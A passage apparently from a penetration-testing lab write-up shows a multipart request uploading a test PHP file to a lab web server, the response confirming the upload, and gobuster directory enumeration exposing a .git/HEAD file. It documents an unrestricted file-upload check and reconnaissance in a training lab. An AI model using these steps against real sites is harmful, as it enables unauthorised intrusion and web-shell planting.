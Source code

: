 ```http
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------220412119661351292736528440
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"📌
Content-Type: application/x-php📌

<?php echo "test" ?>📌

-----------------------------220412119661351292736528440--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:28:33 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	  <a href='uploads/test.php'>File Uploaded Succesfully</a>📌                       </div>

[...]
```

`gobuster dir --url https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 336]
/.git/HEAD            (Status: 200) [Size: 23]
/.htaccess            (Status: 403) [Size: 341]
/.htpasswd            (Status: 403) [Size: 341]
/cgi-bin/             (Status: 403) [Size: 340]
/index.php            (Status: 200) [Size: 3399]
/LICENSE              (Status: 200) [Size: 10273]
/logo                 (Status: 200) [Size: 14598]
```
